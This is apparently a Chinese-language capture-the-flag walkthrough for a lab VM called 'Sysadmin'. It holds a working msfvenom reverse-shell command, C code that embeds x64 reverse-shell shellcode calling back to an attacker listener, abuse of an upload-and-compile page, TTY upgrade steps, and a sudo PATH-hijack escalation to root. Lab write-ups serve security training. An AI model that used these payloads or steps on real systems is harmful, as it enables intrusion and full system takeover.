




# Sysadmin



## 信息收集

### 端口扫描

```sh
root@kali:/tmp/123# nmap 192.168.56.210 -p-
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-23 08:26 -0400
Nmap scan report for 192.168.56.210
Host is up (0.00055s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:8F:60:49 (Oracle VirtualBox virtual NIC)

root@kali:/tmp/123# nmap 192.168.56.210 -p 22,80 -sC -sV
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-23 08:28 -0400
Nmap scan report for 192.168.56.210
Host is up (0.0015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: C Code Upload
MAC Address: 08:00:27:8F:60:49 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.33 seconds
```

### web应用分析



c 代码上传平台，上传你的 .c 代码用于编译和运行，提示：你编译的二进制文件在执行后会被立即删除。

查看源码发现：.



```sh
gcc -std=c11 -nostdinc -I/var/www/include -z execstack -fno-stack-protector -no-pie test.c -o a.out
```

* -std=c11 使用`C11标准`编译
* -nostdinc 不使用默认的标准头文件路径
* -I/var/www/include 手动指定头文件搜索目录
* -z execstack 允许栈上执行指令
* -fno-stack-protector 关闭栈保护
* -no-pie 关闭地址随机化

## 验证上传漏洞

从信息收集的指纹识别可以看到是linux系统，`从源码中的注释，得知允许栈上执行指令`，所以可以直接通过msfvenom生成linux系统的反弹shell。

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.101 LPORT=39666 -f c
```

* -p 选择payload
* LHOST 指定要回连的目标IP
* LPORT 指定要会连的目标端口
* -f 输出格式

生成一段用于linux反弹shell的shellcode，可以嵌入C代码中。

```c#
int main(){
    unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
"\x48\xb9\x02\x00\x9a\xf2\xc0\xa8\x38\x65\x51\x48\x89\xe6"
"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
"\x89\xe6\x0f\x05";
    ((void(*)())buf)();
    return 0;
}
```

* void(*)() 表示 一个 函数指针类型
* (void(*)())buf 表示把 buf 这个字节数组的地址强制转换为函数指针
* ((void(*)())buf)() 表示调用这个函数指针 从第一个字节开始执行机器码

```shell
root@kali:~# nc -lnvp 39666           
listening on [any] 39666 ...
# 终端1
root@kali:/tmp/123# curl -i -F "src=@test.c;filename=test.c" http://192.168.56.210:80/
# 终端2
```



确实存在上传漏洞，但是连接不稳定。

## 优化反向shell

```c
int main(){
    int pid = fork();
    if (pid != 0) return 0; // 让程序不再占着原来的前端执行流。
    setsid(); // 让当前子进程创建新会话，脱离原控制终端
    pid = fork();
    if (pid != 0) _exit(0);// 进一步避免重新关联控制终端，让后台运行更独立。
    unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
"\x48\xb9\x02\x00\x9a\xf2\xc0\xa8\x38\x65\x51\x48\x89\xe6"
"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
"\x89\xe6\x0f\x05";
    ((void(*)())buf)();
    return 0;
}
```

上传该脚本，并在另一个终端监听39666端口：

```sh
root@kali:~# nc -lnvp 39666
listening on [any] 39666 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.210] 50290
id
uid=1000(echo) gid=1000(echo) groups=1000(echo)
whereis python
python: /usr/bin/python3.9-config /usr/bin/python3.9 /usr/lib/python2.7 /usr/lib/python3.9 /etc/python3.7 /etc/python3.9 /usr/local/lib/python3.9 /usr/include/python3.9
script -qc /bin/bash /dev/null
echo@Sysadmin:/home/echo$ ^Z
zsh: suspended  nc -lnvp 39666
root@kali:~# stty raw -echo;fg 
[1]  + continued  nc -lnvp 39666
                                reset
reset: unknown terminal type unknown
Terminal type? xterm
echo@Sysadmin:/home/echo$ export TERM=xterm-256color
echo@Sysadmin:/home/echo$ echo $SHELL
/bin/bash
echo@Sysadmin:/home/echo$ source ~/.bashrc
echo@Sysadmin:/home/echo$ stty size
24 80
echo@Sysadmin:/home/echo$ stty rows 38 columns 88 # 原终端 行 38 列 88 ，这不是凭空出来的。
```

## 纵向移动

### 系统信息枚举

```sh
echo@Sysadmin:/home/echo$ sudo -l
Matching Defaults entries for echo on Sysadmin:
    !env_reset, mail_badpass, !env_reset, always_set_home

User echo may run the following commands on Sysadmin:
    (root) NOPASSWD: /usr/local/bin/system-info.sh
```

我们可以不用密码，以root权限执行/usr/local/bin/system-info.sh。

* !env_reset 不重置环境变量
* mail_badpass 当密码输入错误时，将警告发送到管理员的邮件上
* always_set_home suod执行目标命令时，把HOME设置为目标用户的家目录。

查看`/usr/local/bin/system-info.sh`:

```sh
echo@Sysadmin:/home/echo$ cat /usr/local/bin/system-info.sh
#!/bin/bash

#===================================
# Daily System Info Report
#===================================

echo "Starting daily system information collection at $(date)"
echo "------------------------------------------------------"

echo "Checking disk usage..."
df -h

echo "Checking log directory..."
ls -lh /var/log/
find /var/log/ -type f -name "*.gz" -mtime +30 -exec rm {} \;

echo "Checking critical services..."
systemctl is-active sshd
systemctl is-active cron

echo "Collecting CPU and memory information..."
cat /proc/cpuinfo
free -m

echo "------------------------------------------------------"
echo "Report complete at $(date)"
```

在通过sudo执行命令时，不重置环境变量，查看system-info.sh，发现命令用的都是相对路径，我们可以劫持PATH环境变量，执行恶意的命令。

### 权限提升

```sh
echo@Sysadmin:/tmp$ vim free
#!/bin/bash
bash -i
echo@Sysadmin:/tmp$ chmod +x free
echo@Sysadmin:/tmp$ echo $PATH
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
echo@Sysadmin:/tmp$ export PATH=/tmp:${PATH}
echo@Sysadmin:/tmp$ echo $PATH
/tmp:/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
echo@Sysadmin:/tmp$ sudo /usr/local/bin/system-info.sh
root@Sysadmin:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

## 获取flag

```sh
root@Sysadmin:/tmp# cat ~/*
flag{root-8b8a8b353298f[hidden]
root@Sysadmin:/tmp# cat /home/echo/user.txt
flag{user-9592f6e02a7ab[hidden]
```

## 攻击链总结

1. 信息收集阶段使用`nmap`枚举目录，发现仅开放`22/tcp`和`80/tcp`，其中`80`端口对应一个可上传`.c`文件的web页面。
2. 对Web功能进行分析后确认：该页面会将上传的C代码在目标机上编译并执行执行结束后再删除生成的二进制文件。这说明攻击者可以借助该功能在目标主机上实现任意本地代码执行。
3. 结合页面暴露的编译参数可知，目标程序在较弱保护条件下被编译，降低了直接执行自定义代码的门槛。利用这一点成功获得了`echo`用户权限的shell。
4. 初始shell可用性较差，因此后续通过会话后台化与TTY升级手段，将其整理为更稳定、可交互的shell环境，便于继续进行本地枚举。
5. 枚举`sudo`权限时发现，用户`echo`可以以`root`身份无密码执行`/usr/local/bin/system-info.sh`。进一步审计该脚本后发现，其内部调用了多个未使用绝对路径的系统命令。
6. 同时，`sudo` 配置中存在 `!env_reset` , 说明执行该脚本时环境变量不会被完全重置，因此可以通过影响`PATH` 的方法劫持脚本调用的命令。
7. 最终，借助`NOPASSWD sudo` 权限、可控环境变量以及脚本相对命令调用这三点，成功将命令执行劫持到自定义程序，从`echo`提升`root`，并读取用户与`root`的flag。

